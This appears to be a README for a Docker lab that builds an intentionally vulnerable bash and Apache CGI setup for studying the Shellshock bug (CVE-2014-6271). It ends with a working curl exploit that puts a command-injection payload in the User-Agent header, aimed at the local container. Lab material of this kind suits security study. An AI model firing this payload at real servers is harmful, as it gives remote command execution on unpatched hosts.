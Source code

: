 # shellshock-lab

This is a playground to investigate and emulate the infamous `shellshock` vulnerability in `bash` (CVE-2014-6271, CVE-2014-7169, CVE-2014-7186 CVE-2014-7186).

## About Shellshock

// TODO

## Repo Content

- `image/` - contains everything that is needed to build a vulnerable, unpatched image of bash (`4.1.1`)

## Building the image

From within the image directory...

```bash
docker build -t shellshock-lab:latest .
```

## Running the container

```bash
docker run --rm -p 2222:22 -p 8080:80 -p 8443:443 -it shellshock-lab:latest
```

## Exploit using CGI scripts

The container runs an Apache server with a CGI script that is vulnerable to `shellshock`. The script is located at `/usr/lib/cgi-bin/submit-comment.cgi`,
and can be accessed via `http://localhost:8080/cgi-bin/submit-comment.cgi`.

`apache2` automatically sets the `User-Agent` header to the value of the `User-Agent` HTTP header. This means that the `User-Agent` header can be used to exploit the `shellshock` vulnerability.

```bash
curl --header 'User-Agent: () { :;}; /bin/bash -c "echo pwned > /tmp/test"' http://localhost:8080/cgi-bin/submit-comment.cgi
```
